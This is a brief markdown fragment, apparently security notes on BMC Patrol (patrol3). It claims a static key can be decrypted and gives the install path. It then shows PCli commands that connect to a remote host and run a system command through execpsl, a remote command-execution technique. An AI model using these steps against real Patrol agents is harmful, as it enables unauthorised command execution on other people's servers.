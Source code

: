 ### Static key can be decrypted
```
C:\Program Files\Patrol\patrol3
```

### Execute command 
```
PCli%> connect <rhost>
PCli%> execpsl "system(\"dir C:\\\\directory\");"
```

